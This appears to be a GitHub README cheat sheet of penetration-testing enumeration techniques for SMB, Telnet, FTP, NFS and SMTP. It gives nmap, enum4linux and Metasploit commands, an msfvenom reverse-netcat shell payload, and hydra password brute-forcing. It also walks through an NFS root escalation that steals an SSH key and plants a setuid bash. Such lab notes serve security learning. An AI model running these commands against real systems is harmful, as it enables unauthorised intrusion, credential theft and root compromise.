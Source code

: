 # Enumeration-Techniques
## SMB Enumeration
**1. Scan the network and find out port with** : `nmap -sV -p <port> <ip>` **(default port 445)**\
**2. After that enumerate smb server with Enum4linux** : `enum4linux [options] <ip>`
<details>
  <h3>Basic enum4linux flags</h3>
  <summary>options</summary>
  <p>-U  get userlist</p>
  <p>-M  get machine list</p>
  <p>-N   get namelist dump (different from -U and-M)</p>
  <p>-S  get sharelist</p>
  <p>-P  get password policy information</p>
  <p>-G  get group and member list</p>
  <p>-a  all of the above (full basic enumeration)</p>
</details>

### Other Enumeration Techniques (unix)
  `nmap -v -p 139,445 -oG smb.txt <ip range>` \
  `nbt scan -r <ip/range>`\
  `nmap -v -p 139,445 –script smb-os-discovery <ip>`
  
**Extra** `smbclient //IP/SHARE` **(for connecting)**

  
### On Windows
  `Net view \\dc01 /all`


## Telnet Enumeration
**1. Scan the network to identify the port (default 23)** : `nmap -sV -p- <ip>` **(scan all ports)** \
**Can use `--stats-every 5s` for checking progress in nmap if you're impatient like me. ;)**\
**Extra** : `sudo tcpdump ip proto \\icmp -i tun0` **use this for starting a tcpdump listner to identify any kind of backdoor etc.**

<h3>Reverse Shell using netcat</h3>

**MSFVenom payload generate** : `msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`


## FTP Enumeration
**1. Scan the network like always (use nmap my choice)**\
**2. Try default username & password combinations** [Seclists FTP Default Credentials](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt)\
**3. Bruteforce username and passwords using hydra**

**Usage** : `hydra -l <username> -P passwordslist.txt ftp://<ip>`\
**Usage** : `hydra -L usernames.txt -P passwordlist.txt ftp://<ip>:port`

## NFS Enumeration
**1. Scanning target all ports with nmap (agressive scan use with cation)** : `nmap -A -p- <target ip> --stats-every 5s`\
**2. Create a mount point to access shared folder** : `mkdir -p /tmp/mount`\
**3. Listing NFS share** : `/usr/sbin/showmount -e <ip>`\
**4. Mount into your system** : `sudo mount -t nfs IP:share /tmp/mount/ -nolock`

<details>
  <summary>Privilege Escalation</summary>
  
1. Go to mount point here mine is `/tmp/mount` and the shared folder was `cappucino` enter the folder
2. Search for `.ssh/id_rsa` copy that to your system and login using user\
Extra : **Download NFS files using scp** : `scp -i id_rsa username@<target ip>:/bin/bash ~/Downloads/bash`
3. **Download manually** : [bash](https://raw.githubusercontent.com/polo-sec/writing/refs/heads/master/Security%20Challenge%20Walkthroughs/Networks%202/bash)
4. On another tab go to **/tmp/mount/cappucino** on attacker machine and copy the bash shell downloaded previous line [bash](https://raw.githubusercontent.com/polo-sec/writing/refs/heads/master/Security%20Challenge%20Walkthroughs/Networks%202/bash)
5. change the bash file ownership to root using : `sudo chown root bash`
6. Give the bash shell special and executable privilege with : `sudo chmod +xs bash`
7. Login to ssh with the user and check for the bash file you've put just now and execute using : `./bash -p`
8. Bam !! You got the root shell 😅 ?
</details>

## SMTP Enumeration
**1. As always find out the port SMPT running on using (default port 25)** : `nmap -sV -p- <target ip>` or `nmap -A -p- <target ip>`\
  **Important for next step: Install metasploit-framework for using available modules for enumeration and exploitation**\
  **`sudo apt install metasploit-framework` or refer to this [Metasploit-Framework](https://github.com/rapid7/metasploit-framework?tab=readme-ov-file)**\
**2. Start Metasploit-Framework using** : `msfconsole`\
**3. Search for module with** : `search smpt_version`\
**4. Select the module by typing** : `use 0` **0 is the index number** or `use auxiliary/scanner/smtp/smtp_version`\
**5. Use** : `info` **or** `options` **to see required options needed to be set**\
**6. Use (in this case only needed to be rhosts becasuse port was same as 25, change if needed) :** `set rhost <target ip>`\
**7. Run the exploit using :** `run` or `exploit`\
Got the info !! 😸

<h3>Let's Try other modules for more info</h3>

**1. Search another module** : `search smtp_enum` and select it using `use 0` or `use auxiliary/scanner/smtp/smtp_enum`\
**2. Set required options** : `set rhosts <target ip>` & `set user_file /path/top-usernames-shortlist.txt`\
  **Download the username file from here**: [usernames/seclists](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/top-usernames-shortlist.txt)\
**3. Run the exploit:** `run` or `exploit`\
**Yay !! Got the username [administrator]()**
